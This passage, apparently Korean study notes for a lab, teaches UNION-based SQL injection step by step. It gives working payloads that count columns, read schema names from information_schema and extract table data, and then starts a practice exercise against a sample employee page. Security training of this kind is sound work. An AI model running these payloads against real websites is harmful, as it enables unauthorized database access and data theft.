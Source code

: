 ```bash
?idx=1234'+ORDER+BY+3--+   (정상적인 응답)    <--- 컬럼 갯수
?idx=1234'+ORDER+BY+4--+   (데이터베이스 오류 또는 비정상적 응답이 표시)
```

4. HTTP 응답에 표시되는 컬럼 파악
UNION ALL SELECT을 이용해 문자열 데이터를 표시할 수 잇는 칼럼 파악. 3개인 경우 아래와 같이 차례대로 문자열을 사용해 요청한다. 이때, 원래 쿼리에 의해 반환되는 레코드가 없도록 매개변수 값을 설정해야한다
```bash
?idx=임의의 문자열'+UNION+ALL+SELECT+'a',+NULL,+NULL--+
?idx=임의의 문자열'+UNION+ALL+SELECT+NULL,+'a',+NULL--+
?idx=임의의 문자열'+UNION+ALL+SELECT+NULL,+NULL,+'a'--+
...

# 단순한 방법
?idx=임의의 문자열'+UNION+ALL+SELECT+1,2,3--+
```

5. 데이터베이스 구조 파악
DBMS 내부적으로 제공되는 기본 변수나 함수, 시스템 테이블을 이용해 DB명, 테이블, 컬럼을 알아낸다
```bash
# 데이터베이스명
?idx=임의의 문자열'+UNION+ALL+SELECT+database(),2,3--+ 

# 테이블 추출
?idx=임의의 문자열'+UNION+ALL+SELECT+group_concat(table_name),2,3+FROM+information_schema.TABLES+WHERE+table_schema=database()--+

# 컬럼 추출
?idx=임의의 문자열'+UNION+ALL+SELECT+group_concat(column_name),2,3+FROM+information_schema.COLUMNS+WHERE+table_schema=database()+AND+table_name='테이블명'--+
```

6. 데이터 추출
```bash
?idx=임의의 문자열'+UNION+ALL+SELECT+group_concat(concat(컬럼1,0x3a,컬럼2)),2,3+FROM+데이터베이스명.테이블명--+
```

# 실습
## Exercise1
| GET 요청으로 전달되는 "name" 매개변수가 WHERE절에 사용된 문자열 타입의 컬럼에 연결됩니다. 
1. 홑따옴표를 붙여본다.
```bash
https://.../sqli_union_ex1.php?name=Jet%20Black%27

Employee Info

Something is wrong!
```

2. 잠재적 취약점 여부 검증, name=문자열 인것을 파악
```bash
# 참이 되는 조건
https://.../sqli_union_ex1.php?name=Jet%20Black%27+AND+1%3D1--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16

# 참과 다른 결과 출력
https://.../sqli_union_ex1.php?name=Jet%20Black%27+AND+1%3D3--+

Employee Info
0 results
```
